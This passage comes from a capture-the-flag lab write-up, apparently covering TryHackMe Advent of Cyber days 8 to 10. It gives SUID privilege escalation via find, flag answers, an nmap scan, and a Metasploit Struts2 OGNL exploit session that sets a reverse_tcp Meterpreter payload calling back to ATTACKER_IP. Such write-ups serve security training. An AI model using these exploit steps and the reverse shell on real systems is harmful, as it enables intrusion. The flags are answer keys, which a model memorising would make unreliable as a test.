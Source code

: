 Let's exploit SUID on find. You can find the payload on [GTFOBins](https://gtfobins.github.io/gtfobins/find/#suid)

- Find and run a file as igor. Read the file /home/igor/flag1.txt

> THM{d3f0708bdd9accda7f937d013eaf2cd8}

- Find another binary file that has the SUID bit set. Using this file, can you become the root user and read the /root/flag2.txt file?

Try the suspiciously-looking /usr/bin/system-control

> THM{8c8211826239d849fa8d6df03749c3a2}

---

## *[Day 9] Requests*

- What is the value of the flag?

>  sCrIPtKiDd

---

## *[Day 10] Metasploit-a-ho-ho-ho*

First, let's find out what we're dealing with:

```bash
$ sudo nmap 10.10.124.98 -Pn -p- -vv -T4 -A -oN nmap-scan --min-parallelism 55 --script discovery,vuln
```

Note, that it runs Apache 7.0.79 - to get the version, provoke 404 error. Judging from
nmap scan, the backend runs Struts - a Java MVC framework:

```
| http-sitemap-generator: 
|   Directory structure:
|     /
|       Other: 2
|     /images/
|       gif: 1
|     /js/
|       js: 3
|     /struts/
|       js: 1
|     /styles/
|       css: 4
```

The exploit is - exploit/multi/http/struts2_content_type_ognl

```
msf6 exploit(multi/http/struts2_content_type_ognl) > set rhosts 10.10.49.127
rhosts => 10.10.49.127
msf6 exploit(multi/http/struts2_content_type_ognl) > set rport 80
rport => 80
msf6 exploit(multi/http/struts2_content_type_ognl) > set lhost ATTACKER_IP
lhost => ATTACKER_IP
msf6 exploit(multi/http/struts2_content_type_ognl) > set targeturi /showcase.action
msf6 exploit(multi/http/struts2_content_type_ognl) > set payload payload/linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/http/struts2_content_type_ognl) > exploit
```
